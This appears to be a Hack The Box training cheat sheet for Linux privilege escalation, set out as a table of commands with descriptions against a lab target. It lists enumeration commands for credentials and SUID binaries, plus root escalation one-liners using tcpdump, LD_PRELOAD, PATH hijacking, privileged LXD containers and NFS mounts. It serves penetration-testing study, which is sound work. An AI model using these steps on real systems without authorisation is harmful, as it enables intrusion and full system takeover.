 

|                                     **Command**                                     |                    **Description**                    |
| :---------------------------------------------------------------------------------: | :---------------------------------------------------: |
|                            `ssh htb-student@<target IP>`                            |                   SSH to lab target                   |
|                                `ps aux \| grep root`                                |             See processes running as root             |
|                                       `ps au`                                       |                  See logged in users                  |
|                                     `ls /home`                                      |              View user home directories               |
|                                   `ls -l ~/.ssh`                                    |          Check for SSH keys for current user          |
|                                      `history`                                      |         Check the current user's Bash history         |
|                                      `sudo -l`                                      |      Can the user run anything as another user?       |
|                              `ls -la /etc/cron.daily`                               |               Check for daily Cron jobs               |
|                                       `lsblk`                                       |        Check for unmounted file systems/drives        |
|            `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`            |           Find world-writeable directories            |
|            `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`            |              Find world-writeable files               |
|                                     `uname -a`                                      |               Check the Kernel versiion               |
|                               `cat /etc/lsb-release`                                |                 Check the OS version                  |
|                       `gcc kernel_expoit.c -o kernel_expoit`                        |            Compile an exploit written in C            |
|                                     `screen -v`                                     |        Check the installed version of `Screen`        |
|                               `./pspy64 -pf -i 1000`                                |          View running processes with `pspy`           |
|           `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`           |          Find binaries with the SUID bit set          |
|           `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`           |         Find binaries with the SETGID bit set         |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` |                Priv esc with `tcpdump`                |
|                                    `echo $PATH`                                     |    Check the current user's PATH variable contents    |
|                                  `PATH=.:${PATH}`                                   | Add a `.` to the beginning of the current user's PATH |
|          `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`          |                Search for config files                |
|                                    `ldd /bin/ls`                                    |     View the shared objects required by a binary      |
|              `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`               |        Escalate privileges using `LD_PRELOAD`         |
|                          `readelf -d payroll \| grep PATH`                          |             Check the RUNPATH of a binary             |
|               `gcc src.c -fPIC -shared -o /development/libshared.so`                |               Compiled a shared libary                |
|                                     `lxd init`                                      |         Start the LXD initialization process          |
|         `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`          |                 Import a local image                  |
|                 `lxc init alpine r00t -c security.privileged=true`                  |           Start a privileged LXD container            |
|   `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`    |       Mount the host file system in a container       |
|                                  `lxc start r00t`                                   |                  Start the container                  |
|                             `showmount -e 10.129.2.12`                              |               Show the NFS export list                |
|                      `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                      |              Mount an NFS share locally               |
|                         `tmux -S /shareds new -s debugsess`                         |        Created a shared `tmux` session socket         |
|                               `./lynis audit system`                                |          Perform a system audit with `Lynis`          |
